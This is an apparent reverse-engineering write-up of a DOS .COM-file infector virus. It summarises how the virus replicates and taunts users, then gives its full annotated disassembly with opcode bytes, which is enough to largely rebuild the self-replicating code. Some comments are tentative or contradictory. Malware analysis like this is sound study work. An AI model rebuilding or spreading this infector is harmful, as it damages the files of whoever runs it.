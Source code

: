 # Notes on the virus

## Quick summary

The virus injects itself to the start of .COM files in the current directory.
It checks for two words near the start of the file to not inject the same file twice.
Infected files run the original code after executing the virus payload.
Infected files also track their "generation" (the original virus is generation 0), and will randomly print a message and terminate instead of executing the orignal code starting at generation 4.

## Virus behavior

1. When an infected .COM file is executed, first it executed the virus payload
2. It increments a "generation" counter at 0x105
    1. The original VIRUS.COM is generation 0
    2. A virus of generation i injects itself as generation i+1 on uninfected files
3. Then it copies itself to an area of memory in the extended section
4. It asks DOS for *.COM files in the current directory
5. For each file found:
    1. It reads the file into the extended section of memory, after the copied virus code
    2. The original file starts at an offest of 0x34f from the start of the virus code (there are 0s between both)
    3. It checks if the file has the words 49 56 at 0x3
    4. If the words are present, the file is considered infected and skipped
    5. Otherwise, the contents of the file are overwritten with the portion of memory that contains the virus payload and the original file contents
6. After the all files are processed, the generation of the current virus is checked
    1. If it's less than 4 (it checks for 5 since it's already been incremented at the start of the payload), it executes the original code
    2. Otherwise it checks the first bit from a autoincreasing counter in memory (not sure what's counting), and if it's 1 print a message trolling the user and terminates the program

## Notes on the disassembled code

This dissassembled code has been extracted with [ndisasm](https://linux.die.net/man/1/ndisasm) to avoid manually copying f

Note: since code is not loaded into memory here, addresses start at 0000.

```
; Start of virus payload
00000000  EB14              jmp short 0x16  ; Jump to main routine
00000002  90                nop

; Virus mark
00000003  49                dec cx
00000004  56                push si

; Generation counter and "*.COM"
00000005  002A              add [bp+si],ch  ; Start of "*.COM", only 2A; the higher half is different between VIRUS.com and infected files
00000007  2E43              cs inc bx
00000009  4F                dec di
0000000A  4D                dec bp
0000000B  004F04            add [bx+0x4],cl ; End of "*.COM", only 00

0000000E  0000              add [bx+si],al
00000010  0100              add [bx+si],ax
00000012  0000              add [bx+si],al
00000014  0000              add [bx+si],al

; Start of main routine
00000016  8CC8              mov ax,cs       ; Store CS (code segment register) into AX
00000018  050010            add ax,0x1000   ; Add 0x1000 to the stored CS in AX
0000001B  8EC0              mov es,ax       ; ES (extra segment) points to 0x16BA
0000001D  FE060501          inc byte [0x105]; Increment byte counter at 0x105 (it's 0x00 in VIRUS.COM, 0x05 in infected files)
00000021  BE0001            mov si,0x100    ; SI is the source index for string operations, and now it points to the start of the code
00000024  31FF              xor di,di       ; Set DI to 0x0000, set ZF flag
00000026  B94F01            mov cx,0x14f
00000029  F3A4              rep movsb       ; Copy 0x14F (CX) bytes from 0x100 (DS:SI), i.e. whole virus code, to 0x16BA:0100 (ES:DI, start of extra segment)
                                            ; Note that 0x105 will be different in the copy due to inc instruction, which marks that the actual contents of the file must be executed, i.e. it's not the origianl VIRUS.COM file
0000002B  BA5F02            mov dx,0x25f
0000002E  B41A              mov ah,0x1a
00000030  CD21              int 0x21        ; Set DTA to 0x25f (contains garbage)
00000032  BA0601            mov dx,0x106    ; Points to *.COM
00000035  B91600            mov cx,0x16     ; File attrs: hidden, system, subdir?
00000038  B44E              mov ah,0x4e
0000003A  CD21              int 0x21        ; Find first matching file, name, attrs, etc stored in DTA
0000003C  7260              jc 0x9e         ; Jump to 0x9e if error?

; Inject virus into file routine
0000003E  BA7D02            mov dx,0x27d    ; File name in DTA
00000041  B8023D            mov ax,0x3d02
00000044  CD21              int 0x21        ; Open file r/w, put file handle in AX
00000046  A31401            mov [0x114],ax  ; Copy file handle to DS:114, don't know why yet
00000049  89C3              mov bx,ax       ; Copy file handle to BX
0000004B  06                push es
0000004C  1F                pop ds          ; Set DS to ES (0x16BA)
0000004D  BA4F03            mov dx,0x34f    ; Pointer to read buffer
00000050  B9FFFF            mov cx,0xffff   ; Read up to FFFF bytes
00000053  B43F              mov ah,0x3f
00000055  CD21              int 0x21        ; Read from file, store # bytes read in AX
00000057  054F03            add ax,0x34f    ; This is going to be the new size of the infected file, size payload + padding puts start of old program at 34f
0000005A  2EA31201          mov [cs:0x112],ax   ; Move # bytes read + 34f to CS:112 (couple of words before file handle)
0000005E  3E813E52034956    cmp word [ds:0x352],0x5649  ; Check if file is already infected by checking string 0x4956 near start of file
00000065  7421              jz 0x88         ; If file already infected
00000067  31C9              xor cx,cx       ; Set CX to 0x0000
00000069  89CA              mov dx,cx       ; Set DX to 0x0000
0000006B  2E8B1E1401        mov bx,[cs:0x114]   ; Move file handle to BX
00000070  B80042            mov ax,0x4200
00000073  CD21              int 0x21        ; Move file pointer to start of file
00000075  7211              jc 0x88         ; Jump to 0x88 if error
00000077  BA0000            mov dx,0x0
0000007A  2E8B0E1201        mov cx,[cs:0x112]   ; Move # bytes read + 34f, i.e. original file + payload to CX
0000007F  2E8B1E1401        mov bx,[cs:0x114]   ; Move file handle to BX
00000084  B440              mov ah,0x40
00000086  CD21              int 0x21        ; Write to file
00000088  2E8B1E1401        mov bx,[cs:0x114]   ; Move file handle to BX
0000008D  B43E              mov ah,0x3e
0000008F  CD21              int 0x21        ; Close file
00000091  0E                push cs
00000092  1F                pop ds          ; Set DS to CS (0x6BA)
00000093  B44F              mov ah,0x4f
00000095  BA5F02            mov dx,0x25f
00000098  CD21              int 0x21        ; Find next matching file
0000009A  7202              jc 0x9e         ; Jump to 0x9e if error (AX was set to 12 = no more files)
0000009C  EBA0              jmp short 0x3e  ; Jump to 0x3e (Inject virus into file routine)

; No more files
0000009E  BA8000            mov dx,0x80
000000A1  B41A              mov ah,0x1a
000000A3  CD21              int 0x21        ; Set DTA
000000A5  803E050105        cmp byte [0x105],0x5
000000AA  725B              jc 0x107        ; Jump to 0x107 (endgame routine) if less than 5th virus generation
000000AC  B84000            mov ax,0x40
000000AF  8ED8              mov ds,ax
000000B1  A16C00            mov ax,[0x6c]   ; Read some sort of autoincrement counter (?), just to get a random value
000000B4  0E                push cs
000000B5  1F                pop ds
000000B6  83E001            and ax,byte +0x1    ; Check first bit of randome
000000B9  744C              jz 0x107        ; If it was zero, go to endgame routine
000000BB  BAC401            mov dx,0x1c4    ; Points to "Si quieres..."
000000BE  B409              mov ah,0x9
000000C0  CD21              int 0x21        ; Print string
000000C2  CD20              int 0x20        ; End program

; "Si quieres el titulo de experto... desinfectame xDDDDDDD"
000000C4  53                push bx        ; Start of "Si quieres..."
000000C5  69207175          imul sp,[bx+si],word 0x7571
000000C9  6965726573        imul sp,[di+0x72],word 0x7365
000000CE  20656C            and [di+0x6c],ah
000000D1  207469            and [si+0x69],dh
000000D4  7475              jz 0x14b
000000D6  6C                insb
000000D7  6F                outsw
000000D8  206465            and [si+0x65],ah
000000DB  206578            and [di+0x78],ah
000000DE  7065              jo 0x145
000000E0  7274              jc 0x156
000000E2  6F                outsw
000000E3  2E2E2E206465      and [cs:si+0x65],ah
000000E9  7369              jnc 0x154
000000EB  6E                outsb
000000EC  6665637461        o32 arpl [gs:si+0x61],si
000000F1  6D                insw
000000F2  65207844          and [gs:bx+si+0x44],bh
000000F6  44                inc sp
000000F7  44                inc sp
000000F8  44                inc sp
000000F9  44                inc sp
000000FA  44                inc sp
000000FB  44                inc sp
000000FC  44                inc sp
000000FD  2001              and [bx+di],al
000000FF  2020              and [bx+si],ah
00000101  2020              and [bx+si],ah
00000103  200A              and [bp+si],cl  ; End of "Si quieres..."

; The following has been aligned to 0x107
; Endgame routine
00000107  BE2402            mov si,0x224
0000010A  B92B00            mov cx,0x2b
0000010D  31FF              xor di,di       ; Set DI to 0x0000
0000010F  F3A4              rep movsb       ; Copy 0x2b (CX) bytes from 0x224 (DS:SI), to 0x16BA:0000 (ES:DI, start of extra segment, with virus code)
                                            ; Up until start of main routine? That's not what I see, maybe it's CX words, not bytes?
00000111  31FF              xor di,di       ; Set DI to 0x0000
00000113  2EC7060E010000    mov word [cs:0x10e],0x0 ; 
0000011A  2E8C061001        mov [cs:0x110],es       ;
0000011F  2EFF2E0E01        jmp far [cs:0x10e]      ; Jump to code in extra segment (16BA:0000)? Which actually is the next instruction
00000124  1E                push ds
00000125  07                pop es
00000126  BE4F04            mov si,0x44f
00000129  803E050101        cmp byte [0x105],0x1    ; Check if mark is 1 (it is for first generation infected files but not for VIRUS.COM?)
0000012E  7504              jnz 0x134               ; If mark not 1 (original VIRUS.COM?) skip the next instruction 
00000130  81EE0002          sub si,0x200            ; Only if mark not 1 (original VIRUS.COM?)
00000134  BF0001            mov di,0x100
00000137  B9FFFF            mov cx,0xffff
0000013A  29F1              sub cx,si
0000013C  F3A4              rep movsb       ; Copy 0xfbb0 or 0xfeb0 (CX) bytes from 0x224 (DS:SI) to 0x16BA:0000 (ES:DI, start of extra segment)
0000013E  2EC70600010001    mov word [cs:0x100],0x100
00000145  2E8C1E0201        mov [cs:0x102],ds
0000014A  2EFF2E0001        jmp far [cs:0x100]
```

